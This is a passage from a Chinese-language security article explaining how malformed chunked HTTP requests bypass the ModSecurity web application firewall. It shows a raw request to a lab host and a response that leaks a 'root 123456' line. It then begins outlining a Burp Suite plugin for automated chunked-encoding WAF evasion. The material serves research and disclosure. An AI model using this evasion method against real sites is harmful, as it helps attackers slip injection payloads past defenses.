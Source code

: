 因为 sql.php 脚本中返回了带有“root”的关键字，所以直接就被 ModSecurity 拦截了。这时我们改为发送畸形的分块数据包。

```text
请求:
POST /sql.php?id=1 HTTP/1.1
Host: 10.10.10.10
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked
Content-Length: 16

3
123
1
0
(两个换行)


返回:
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.2.15 (CentOS) Server at 10.10.10.10 Port 80</address>
</body></html>
root 123456
========GET==========
Array
(
   [id] => 1
)
========POST==========
Array
(
)
```

通过两个测试可以发现使用畸形的分块数据包可以直接绕过ModSecurity的检测。这个问题我们在2017年4月已提交给ModSecurity官方，但是因为种种问题目前依然未修复。

## 三、编写Burp分块传输插件绕WAF

### 0x01 功能设计 <a id="0x01-&#x529F;&#x80FD;&#x8BBE;&#x8BA1;"></a>

我们先来看看插件要实现的功能

1. 在Burp Repeater套件上可对数据包进行快速chunked解码编码
2. 自动化对Burp的Proxy，scanner，spider等套件的数据包进行编码
3. 可设置分块长度，是否开启注释
